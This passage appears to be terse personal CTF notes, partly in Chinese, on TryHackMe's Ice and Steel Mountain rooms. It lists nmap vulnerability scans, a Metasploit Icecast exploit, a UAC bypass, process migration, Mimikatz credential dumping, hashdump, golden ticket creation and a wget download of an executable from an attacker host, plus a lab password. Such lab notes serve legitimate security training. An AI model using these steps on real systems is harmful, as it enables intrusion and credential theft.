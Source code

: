 	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	upload :
		=> python3 -m http.server 8888
		=> wget http://10.11.92.230:8888/Advanced.exe
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
## ICE : 
	--> https://tryhackme.com/r/room/ice
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> nmap -Pn -sS -sV -T5 -p- 10.10.187.125
		--script vuln 
		=> Microsoft 遠端桌面 (MSRDP) : 135
		=> 8000 : Icecast streaming media server
		=> hostname : DARK-PC
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	-->  msfconsole -q
		=> search Icecast
			=> exploit/windows/http/icecast_header
			=> set rhosts 
			--> getuid
			--> sysinfo
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	root : 
		=> run post/multi/recon/local_exploit_suggester
		=> use exploit/windows/local/bypassuac_eventvwr
			=> session	
			=> set lhost 10.11.92.230
	--> getprivs
		=> SeTakeOwershipPrivilege
		--> ps spoolsv.exe 
		--> migrate pid
		--> getuid
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> Mimikatz 是一個相當臭名昭著的密碼轉儲工具
		=> load kiwi 
		=> help
		=> creds_all
	--> password
		=> hashdump
	--> media : 
		--> screenshare : 即時觀看遠端使用者的桌面
		--> record_mic : 連接到系統的麥克風進行錄音
		--> timestomp : 修改系統上文件的時間戳記
	--> golden_ticket_create : 創建所謂的“金票”
		--> Kerberos（Windows 網域中的身份驗證系統）元件
	--> run post/windows/manage/enable_rdp
		=> 遠端桌面 (MSRDP)
		=> Dark : Password01
## Steel Mountain:
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> /img/BillHarper.png"
		=> BillHarper 
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	--> nmap 
		=> sudo nmap -sV -sS -T5 10.10.6.106  
		=> nmap -Pn -v 10.10.6.106
		=> sudo nmap -sV -sS -T5 -P8080 --script vuln 10.10.6.106
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	Metasploit  : 
		--> sudo msfconsole
		> search "Rejetto Http File Server 2.3"
			=> info --> comfirm same CVE